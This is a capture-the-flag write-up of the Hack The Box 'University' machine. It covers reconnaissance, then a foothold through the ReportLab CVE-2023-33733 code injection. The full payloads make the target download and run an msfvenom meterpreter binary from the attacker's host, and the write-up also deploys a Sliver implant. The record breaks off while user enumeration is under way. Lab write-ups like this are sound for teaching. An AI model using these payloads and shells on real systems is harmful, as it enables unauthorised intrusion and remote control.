

## Summary

---

DISCLAIMER: This box has the potential of something great. Unfortunately by the time of writing this write-up it seems that there is at `least one unintended solution` to it. Since we have only very limited time for testing we decided to create the write-up with the `unintended solution` and leave it to `Hack The Box` and `IppSec` to publish the `intended way` after the box retires.

---

With that being said the box offers a `portal` for `students` and `professors` to register on running on port `80/TCP`. As a `registered student` it is possible to `export` the `profile` as `.pdf file`. For this `ReportLab` is being used which is shown in the `response` of the `application` after intercepting it with for example `Burp Suite`. By using a slightly modified `Proof of Concept (PoC)` for `CVE-2023-33733` which describes `Python Library Code Injection` vulnerability in `ReportLab` within the `Bio` section of the `userprofile`, the `foothold` as the user `WAO` can be achieved. The `unintended solution` requires a new session executed through for example `RunasCs` which with the option for the `User Account Control (UAC) bypass` enables the `SeImpersonatePrivilege` token for the new session. From there on either `getsystem` within `Metasploit` or `GodPotato` or `SharpEfsPotato` or basically every other `token abuse technique / exploit` can be used to `escalate privileges` to `System` and grab both flags, the `user.txt` and `root.txt`.

## Table of Contents

- [Reconnaissance](#Reconnaissance)
    - [Reconnaissance#Port Scanning](#Port-Scanning)
    - [Reconnaissance#Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Reconnaissance#Enumerating the University Portal](#Enumerating-the-University-Portal)
        - [Login as Student](#Login-as-Student)
        - [Login as Professor](#Login-as-Professor)
        - [Enumerating the Student Dashboard](#Enumerating-the-Student-Dashboard)
        - [Courses Dashboard](#Courses-Dashboard)
        - [Username Enumeration](#Username-Enumeration)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
    - [Domain Enumeration](#Domain-Enumeration)
    - [Username Enumeration](#Username-Enumeration)
- [Foothold](#Foothold)
    - [CVE-2023-33733: ReportLab Python Library Code Injection](#CVE-2023-33733-ReportLab-Python-Library-Code-Injection)
- [Persistence](#Persistence)
- [Enumeration](#Enumeration)
- [Privilege Escalation to WAO](#Privilege-Escalation-to-WAO)
    - [Password Spraying](#Password-Spraying)
- [RID Brute Forcing](#RID-Brute-Forcing)
- [Active Directory Enumeration](#Active-Directory-Enumeration)
- [Lateral Movement](#Lateral-Movement)
    - [Host Discovery](#Host-Discovery)
- [Port Forwarding](#Port-Forwarding)
    - [Host Enumeration](#Host-Enumeration)
    - [Password Re-use](#Password-Re-use)
- [Enumerating LAB-2](#Enumerating-LAB-2)
    - [Privilege Escalation to root](#Privilege-Escalation-to-root)
    - [Pivoting (root)](#Pivoting-root)
- [Enumeration of WS-3](#Enumeration-of-WS-3)
- [Privilege Escalation to SYSTEM (unintended)](#Privilege-Escalation-to-SYSTEM-unintended)
- [user.txt](#usertxt)
- [root.txt](#roottxt)
- [Post Exploitation](#Post-Exploitation)

## Reconnaissance

### Port Scanning

As usual we started with various `port scans` and found basically all the expected ports for a `Windows` box.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.153.87    
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-26 21:14 CEST
Nmap scan report for university.htb (10.129.153.87)
Host is up (0.021s latency).
Not shown: 987 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
53/tcp   open  tcpwrapped
80/tcp   open  tcpwrapped
|_http-title: University
88/tcp   open  tcpwrapped
135/tcp  open  tcpwrapped
139/tcp  open  netbios-ssn Microsoft Windows netbios-ssn
389/tcp  open  tcpwrapped
445/tcp  open  tcpwrapped
464/tcp  open  tcpwrapped
593/tcp  open  tcpwrapped
636/tcp  open  tcpwrapped
2179/tcp open  tcpwrapped
3268/tcp open  tcpwrapped
3269/tcp open  tcpwrapped
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-10-27T02:16:06
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 125.26 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- 10.129.153.87
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-26 22:58 CEST
Nmap scan report for university.htb (10.129.153.87)
Host is up (0.022s latency).
Not shown: 65487 closed tcp ports (reset)
PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Simple DNS Plus
80/tcp    open     http          nginx 1.24.0
|_http-server-header: nginx/1.24.0
|_http-title: University
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-27 10:34:53Z)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: university.htb0., Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
593/tcp   open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open     tcpwrapped
2179/tcp  open     vmrdp?
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: university.htb0., Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6553/tcp  filtered unknown
7717/tcp  filtered unknown
8132/tcp  filtered dbabble
9389/tcp  open     mc-nmf        .NET Message Framing
11693/tcp filtered unknown
12359/tcp filtered unknown
14596/tcp filtered unknown
15655/tcp filtered unknown
17425/tcp filtered unknown
18198/tcp filtered unknown
18686/tcp filtered unknown
19597/tcp filtered unknown
20446/tcp filtered unknown
21378/tcp filtered unknown
30380/tcp filtered unknown
36705/tcp filtered unknown
38121/tcp filtered unknown
38864/tcp filtered unknown
46799/tcp filtered unknown
47001/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open     msrpc         Microsoft Windows RPC
49665/tcp open     msrpc         Microsoft Windows RPC
49666/tcp open     msrpc         Microsoft Windows RPC
49668/tcp open     msrpc         Microsoft Windows RPC
49669/tcp open     msrpc         Microsoft Windows RPC
49670/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open     msrpc         Microsoft Windows RPC
49672/tcp open     msrpc         Microsoft Windows RPC
49676/tcp open     msrpc         Microsoft Windows RPC
49697/tcp open     msrpc         Microsoft Windows RPC
51746/tcp filtered unknown
52295/tcp filtered unknown
56875/tcp open     msrpc         Microsoft Windows RPC
59992/tcp filtered unknown
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-10-27T10:35:50
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23858.11 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sU 10.129.153.87
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-26 22:32 CEST
Nmap scan report for university.htb (10.129.153.87)
Host is up (0.021s latency).
Not shown: 972 closed udp ports (port-unreach)
PORT      STATE         SERVICE      VERSION
53/udp    open          domain       Simple DNS Plus
88/udp    open          kerberos-sec Microsoft Windows Kerberos (server time: 2024-10-27 03:37:45Z)
123/udp   open          ntp          NTP v3
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
389/udp   open|filtered ldap
464/udp   open|filtered kpasswd5
500/udp   open|filtered isakmp
4500/udp  open|filtered nat-t-ike
5353/udp  open|filtered zeroconf
5355/udp  open|filtered llmnr
49968/udp open|filtered unknown
50099/udp open|filtered unknown
50164/udp open|filtered unknown
50497/udp open|filtered unknown
50612/udp open|filtered unknown
50708/udp open|filtered unknown
50919/udp open|filtered unknown
51255/udp open|filtered unknown
51456/udp open|filtered unknown
51554/udp open|filtered unknown
51586/udp open|filtered unknown
51690/udp open|filtered unknown
51717/udp open|filtered unknown
51905/udp open|filtered unknown
51972/udp open|filtered unknown
52144/udp open|filtered unknown
52225/udp open|filtered unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1498.30 seconds
```

Since this was an `Active Directory` box we added `university.htb` and `dc.university.htb` to our `/etc/hosts` file right away. The `dc.university.htb` came from the `domain enumeration` part using `enum4linux-ng` which ran parallel to our scans.

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.153.87   university.htb
10.129.153.87   dc.university.htb
```

### Enumeration of Port 80/TCP

Since we got port `80/TCP` open, we approached this one first to see what the `website` had to offer for a potential `foothold`.

- [http://university.htb/](http://university.htb/)

```c
┌──(kali㉿kali)-[~]
└─$ whatweb http://university.htb/   
http://university.htb/ [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@university.htb], Frame, HTML5, HTTPServer[nginx/1.24.0], IP[10.129.153.87], JQuery, Script, Title[University], UncommonHeaders[x-content-type-options,referrer-policy,cross-origin-opener-policy], X-Frame-Options[DENY], nginx[1.24.0]
```

The `website` itself was created around the `university` topic as expected. We were allowed to register as a new `student` or `professor`. The last one required `approval` by someone else of the `university`.


```c
Note: After creating your "Professor" account, your account will be inactive until our team reviews your account details and contacts you by email to activate your account.
```

### Enumerating the University Portal

#### Login as Student

As first step we tried to `register` as a `student` and see what option we had.


Alternatively to the `login` with `credentials` we could also use a `signed-certificate` to login.

- [http://university.htb/accounts/login/SDC/](http://university.htb/accounts/login/SDC/)



Since we didn't had any `certificate` at this point, we logged in using `username` and `password`. 


#### Login as Professor

When we tried to `login` as a `professor` we received the message that our `account` was not `activated` and could not be `authenticated`. As expected.


#### Enumerating the Student Dashboard

Back on the `profile` of our `student account` we found the option to `request a signed certificate` and a `example command` on how to generate it.


While we took a closer look on our `profile` we noticed that we could change a few things like our `Bio` and also `export` the `profile` as `PDF`.


We intercepted the `export` using `Burp Suite` to find some information about the `backend` which created the `.pdf` files.

```c
GET /accounts/profile/pdf/ HTTP/1.1
Host: university.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://university.htb/accounts/profile/
Accept-Encoding: gzip, deflate, br
Cookie: csrftoken=TReLHqxeKFpdxFpGdSvvWR1ZnAKH0AAd; sessionid=ngivk2aw0f670xnzlcd61hf9cdqifrh8
Connection: keep-alive


```

In the `response` the application showed `ReportLab` as `generator` for the `.pdf file`. We wrote that down for later after we finished the `enumeration`.

```c
HTTP/1.1 200 OK
Server: nginx/1.24.0
Date: Sun, 27 Oct 2024 14:09:05 GMT
Content-Type: application/pdf
Content-Length: 8654
Connection: keep-alive
Content-Disposition: attachment; filename="profile.pdf"
X-Frame-Options: DENY
Vary: Cookie
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Cross-Origin-Opener-Policy: same-origin

%PDF-1.4
%“Œ‹ž ReportLab Generated PDF document http://www.reportlab.com
1 0 obj
<<
/F1 2 0 R /F2 3 0 R /F3 5 0 R
>>
endobj
<--- CUT FOR BREVITY --->
0000006034 00000 n 
0000006100 00000 n 
0000007434 00000 n 
trailer
<<
/ID 
[<29b744b4be22df80b3d847b8b81b0e39><29b744b4be22df80b3d847b8b81b0e39>]
% ReportLab generated PDF document -- digest (http://www.reportlab.com)

/Info 9 0 R
/Root 8 0 R
/Size 18
>>
startxref
8067
%%EOF

```


```c
%PDF-1.4
%“Œ‹ž ReportLab Generated PDF document http://www.reportlab.com
```

#### Courses Dashboard

There was also a `Course dashboard` available which provided us a few `names` of the corresponding `professor`.


- [http://university.htb/accounts/profile/visit/6/](http://university.htb/accounts/profile/visit/6/)

#### Username Enumeration

We checked about `20` potential profiles and found the following `professors` which we put in a `wordlist` for later.

- [http://university.htb/accounts/profile/visit/2/](http://university.htb/accounts/profile/visit/2/)
- [http://university.htb/accounts/profile/visit/3/](http://university.htb/accounts/profile/visit/3/)
- [http://university.htb/accounts/profile/visit/4/](http://university.htb/accounts/profile/visit/4/)
- [http://university.htb/accounts/profile/visit/5/](http://university.htb/accounts/profile/visit/9/)
- [http://university.htb/accounts/profile/visit/6/](http://university.htb/accounts/profile/visit/6/)
- [http://university.htb/accounts/profile/visit/7/](http://university.htb/accounts/profile/visit/7/)

| Username    | Email                   |
| ----------- | ----------------------- |
| george      | george@university.htb   |
| carol       | carol@science.com       |
| nour        | nour.qasso@gmail.com    |
| martin.rose | martin.rose@hotmail.com |
| nya         | nya.laracrof@skype.com  |
| steven.U    | steven@yahoo.com        |

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/files]
└─$ cat usernames.txt 
george
carol
carol helgen
nour
Nour Qasso
martin.rose
martin rose
nya
Nya Laracrof
steven.U
steven Universe
```
### Enumeration of Port 445/TCP

Since we tunneled a little while on the website we checked now port `445/TCP` to not miss on something important. But unfortunately at this early point of the box it didn't lead us anywhere.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.153.87 -u '' -p '' --shares
SMB         10.129.153.87   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:university.htb) (signing:True) (SMBv1:False)
SMB         10.129.153.87   445    DC               [+] university.htb\: 
SMB         10.129.153.87   445    DC               [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.153.87 -u ' ' -p ' ' --shares
SMB         10.129.153.87   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:university.htb) (signing:True) (SMBv1:False)
SMB         10.129.153.87   445    DC               [-] university.htb\ :  STATUS_LOGON_FAILURE
```

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.153.87 -u 'guest' -p ' ' --shares
SMB         10.129.153.87   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:university.htb) (signing:True) (SMBv1:False)
SMB         10.129.153.87   445    DC               [-] university.htb\guest:  STATUS_LOGON_FAILURE
```

### Domain Enumeration

To get a quick check on the `domain` we ran `enum4linux-ng` against the box to get the name of the `Domain Controller` which we put into our `/etc/hosts` file.

```c
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ ./enum4linux-ng.py 10.129.153.87
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.129.153.87
[*] Username ......... ''
[*] Random Username .. 'ehmzoyti'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 ======================================
|    Listener Scan on 10.129.153.87    |
 ======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 =====================================================
|    Domain Information via LDAP for 10.129.153.87    |
 =====================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: university.htb

 ============================================================
|    NetBIOS Names and Workgroup/Domain for 10.129.153.87    |
 ============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ==========================================
|    SMB Dialect Check on 10.129.153.87    |
 ==========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false                                                                                                                                                                                                                            
SMB signing required: true                                                                                                                                                                                                                  

 ============================================================
|    Domain Information via SMB session for 10.129.153.87    |
 ============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC                                                                                                                                                                                                                   
NetBIOS domain name: UNIVERSITY                                                                                                                                                                                                             
DNS domain: university.htb                                                                                                                                                                                                                  
FQDN: DC.university.htb                                                                                                                                                                                                                     
Derived membership: domain member                                                                                                                                                                                                           
Derived domain: UNIVERSITY                                                                                                                                                                                                                  

 ==========================================
|    RPC Session Check on 10.129.153.87    |
 ==========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 ====================================================
|    Domain Information via RPC for 10.129.153.87    |
 ====================================================
[+] Domain: UNIVERSITY
[+] Domain SID: S-1-5-21-2056245889-740706773-2266349663
[+] Membership: domain member

 ================================================
|    OS Information via RPC for 10.129.153.87    |
 ================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                    
OS version: '10.0'                                                                                                                                                                                                                          
OS release: '1809'                                                                                                                                                                                                                          
OS build: '17763'                                                                                                                                                                                                                           
Native OS: not supported                                                                                                                                                                                                                    
Native LAN manager: not supported                                                                                                                                                                                                           
Platform id: null                                                                                                                                                                                                                           
Server type: null                                                                                                                                                                                                                           
Server type string: null                                                                                                                                                                                                                    

 ======================================
|    Users via RPC on 10.129.153.87    |
 ======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 =======================================
|    Groups via RPC on 10.129.153.87    |
 =======================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 =======================================
|    Shares via RPC on 10.129.153.87    |
 =======================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ==========================================
|    Policies via RPC for 10.129.153.87    |
 ==========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 ==========================================
|    Printers via RPC for 10.129.153.87    |
 ==========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 8.90 seconds
```

### Username Enumeration

To ran something in the `background` we started `kerbrute` to `enumerate` some `usernames` and funny enough, got a hit on `hana@university.htb` with probably the largest wordlist we could find.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/files]
└─$ ~/opt/05_password_attacks/kerbrute/kerbrute userenum -d university.htb --dc dc.university.htb /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/26/24 - Ronnie Flathers @ropnop

2024/10/26 22:03:36 >  Using KDC(s):
2024/10/26 22:03:36 >   dc.university.htb:88

2024/10/26 22:03:45 >  [+] VALID USERNAME:       administrator@university.htb
2024/10/26 22:04:50 >  [+] VALID USERNAME:       Administrator@university.htb
2024/10/26 22:04:53 >  [+] VALID USERNAME:       hana@university.htb
<--- CUT FOR BREVITY --->
```

## Foothold

### CVE-2023-33733: ReportLab Python Library Code Injection

None of the other enumeration steps brought us anywhere useful and so we headed back to `ReportLab`. A little bit of research brought us to a `Proof of Conept (PoC)` exploit for `CVE-2023-33733` which described a `Code Injection` vulnerability in a `Python Library`.

- [https://github.com/c53elyas/CVE-2023-33733](https://github.com/c53elyas/CVE-2023-33733)

We modified the `payload` to our needs to achieve `Remote Code Execution (RCE)`.

```c
cat >mallicious.html <<EOF
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
EOF

xhtml2pdf mallicious.html
ls -al /tmp/exploited
```

First we played a bit various payloads like `PowerShell reverse shells` which all worked but the most reliable way was to `download` and `execute` a `payload` created with `msfvenom`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/serve]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.79 LPORT=6669 -f exe -o asdf.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: asdf.exe
```

After we prepared the `binary` to `download` using the `PoC` we started our `listener` in `Metasploit`.

```c
┌──(kali㉿kali)-[~]
└─$ msfconsole
Metasploit tip: Use sessions -1 to interact with the last opened session
                                                  

                                   .,,.                  .
                                .\$$$$$L..,,==aaccaacc%#s$b.       d8,    d8P
                     d8P        #$$$$$$$$$$$$$$$$$$$$$$$$$$$b.    `BP  d888888p
                  d888888P      '7$$$$\""""''^^`` .7$$$|D*"'```         ?88'
  d8bd8b.d8p d8888b ?88' d888b8b            _.os#$|8*"`   d8P       ?8b  88P
  88P`?P'?P d8b_,dP 88P d8P' ?88       .oaS###S*"`       d8P d8888b $whi?88b 88b
 d88  d8 ?8 88b     88b 88b  ,88b .osS$$$$*" ?88,.d88b, d88 d8P' ?88 88P `?8b
d88' d88b 8b`?8888P'`?8b`?88P'.aS$$$$Q*"`    `?88'  ?88 ?88 88b  d88 d88
                          .a#$$$$$$"`          88b  d8P  88b`?8888P'
                       ,s$$$$$$$"`             888888P'   88n      _.,,,ass;:
                    .a$$$$$$$P`               d88P'    .,.ass%#S$$$$$$$$$$$$$$'
                 .a$###$$$P`           _.,,-aqsc#SS$$$$$$$$$$$$$$$$$$$$$$$$$$'
              ,a$$###$$P`  _.,-ass#S$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$####SSSS'
           .a$$$$$$$$$$SSS$$$$$$$$$$$$$$$$$$$$$$$$$$$$SS##==--""''^^/$$$$$$'
_______________________________________________________________   ,&$$$$$$'_____
                                                                 ll&&$$$$'
                                                              .;;lll&&&&'
                                                            ...;;lllll&'
                                                          ......;;;llll;;;....
                                                           ` ......;;;;... .  .


       =[ metasploit v6.4.30-dev                          ]
+ -- --=[ 2458 exploits - 1264 auxiliary - 430 post       ]
+ -- --=[ 1468 payloads - 49 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 6669
LPORT => 6669
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.79:6669
```

As first step we `downloaded` the `binary` using `curl` and `saved` it in the same directory.

```c
<para>  
<font color="[[[getattr(pow, Word('__globals__'))['os'].system('curl http://10.10.14.79/asdf.exe -o asdf.exe') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">  
foobar  
</font>  
</para>
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/serve]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

The `payload` needed to be stored in the `Rich Text Editor` in the `user profile section`.


After we clicked on `Submit` the payload in the `editor` we `exported` our `profile` to `trigger` the `payload`.


```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/serve]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.153.87 - - [27/Oct/2024 09:55:28] "GET /asdf.exe HTTP/1.1" 200 -
```

As second step we just `executed` the previously saved `binary` by repeating the steps before but this time with a `slightly modified version` of the `payload`.

```c
<para>  
<font color="[[[getattr(pow, Word('__globals__'))['os'].system('cmd /c asdf.exe') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">  
foobar  
</font>  
</para>
```


We repeated the steps of `exporting` the `profile` and received a `callback`.

```c
[*] Sending stage (201798 bytes) to 10.129.153.87
[*] Meterpreter session 2 opened (10.10.14.79:6669 -> 10.129.153.87:62555) at 2024-10-27 16:38:21 +0100

meterpreter > 
```

## Persistence

Since we didn't knew if our `reverse shell` would be stable we decided to fire up `Sliver` as `fallback`.

```c
┌──(kali㉿kali)-[~]
└─$ sliver
Connecting to localhost:31337 ...

.------..------..------..------..------..------.
|S.--. ||L.--. ||I.--. ||V.--. ||E.--. ||R.--. |
| :/\: || :/\: || (\/) || :(): || (\/) || :(): |
| :\/: || (__) || :\/: || ()() || :\/: || ()() |
| '--'S|| '--'L|| '--'I|| '--'V|| '--'E|| '--'R|
`------'`------'`------'`------'`------'`------'

All hackers gain persist
[*] Server v1.5.42 - 85b0e870d05ec47184958dbcb871ddee2eb9e3df
[*] Welcome to the sliver shell, please type 'help' for options

[*] Check for updates with the 'update' command

sliver >  
```

```c
sliver > generate --mtls 10.10.14.79 --os windows --arch amd64 --format exe --disable-sgn --save /tmp/

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 53s
[*] Implant saved to /tmp/AMATEUR_BELFRY.exe
```

```c
sliver > mtls

[*] Starting mTLS listener ...

[*] Successfully started job #1
```

```c
meterpreter > shell
Process 2352 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.6414]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Web\University>
```

```c
C:\tmp>curl 10.10.14.79/AMATEUR_BELFRY.exe -o AMATEUR_BELFRY.exe
curl 10.10.14.79/AMATEUR_BELFRY.exe -o AMATEUR_BELFRY.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 15.1M  100 15.1M    0     0  28.6M      0 --:--:-- --:--:-- --:--:-- 28.6M
```

```c
C:\tmp>AMATEUR_BELFRY.exe
AMATEUR_BELFRY.exe
```

```c
[*] Session f78449fd AMATEUR_BELFRY - 10.129.153.87:62580 (DC) - windows/amd64 - Sun, 27 Oct 2024 16:43:55 CET
```

## Enumeration

First of all we started with some basic `enumeration` and found out that we got a shell as the user `WAO`.

```c
C:\>whoami /all
whoami /all

USER INFORMATION
----------------

User Name      SID                                          
============== =============================================
university\wao S-1-5-21-2056245889-740706773-2266349663-1106


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes                                        
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                         Well-known group S-1-5-3                                       Mandatory group, Enabled by default, Enabled group
